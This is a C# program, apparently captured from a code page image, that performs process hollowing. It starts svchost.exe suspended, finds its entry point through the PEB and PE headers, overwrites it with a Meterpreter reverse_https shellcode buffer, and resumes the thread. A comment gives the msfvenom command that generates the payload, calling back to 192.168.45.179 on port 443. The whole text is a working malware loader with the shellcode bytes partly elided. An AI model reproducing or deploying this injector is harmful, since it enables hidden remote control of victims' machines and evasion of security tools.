 ```csharp

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
    [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);

        static void Main(string[] args)
        {
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero,
                IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);

            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

            uint opthdr = e_lfanew_offset + 0x28;

            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp
            byte[] buf = new byte[722] {0x06, 0xb2, 0x79, 0x1e, 0x0a, 0x12, 0x36, 0xfa, ..., 0x2f};

            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

            ResumeThread(pi.hThread);
        }
    }
}
```
